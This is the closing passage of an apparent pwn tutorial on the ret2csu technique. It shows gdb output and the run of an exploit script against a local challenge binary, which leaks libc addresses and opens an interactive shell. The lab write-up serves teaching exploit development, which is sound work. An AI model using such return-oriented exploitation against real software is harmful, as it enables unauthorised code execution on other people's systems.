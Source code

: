 Cool, now let's continue the execution:-

```r
gef➤  c
Continuing.
process 15085 is executing new program: /bin/dash
```

It seems like we spawned a shell, let's get back to the script:-

```r
d4mianwayne@oracle:~/pwn1$ python3 xpl.py 
[*] '/home/d4mianwayne/pwn1/chall'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './chall': pid 15085
[*] puts@libc : 0x7f09dd95e9c0
[*] libc      : 0x7f09dd8de000
[*] '/bin/sh' : 6295888
[*] Paused (press any to continue)
[*] Switching to interactive mode
$ whoami
d4mianwayne
$ id
uid=1000(d4mianwayne) gid=1000(d4mianwayne) groups=1000(d4mianwayne),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),129(libvirt)
$ 
[*] Interrupted
```

Awesome, we did it. Congratulations, you finally made it to end which means you learned the `ret2csu` to some extent. I'd recommend you try it on yourself and mess around with `gdb`.




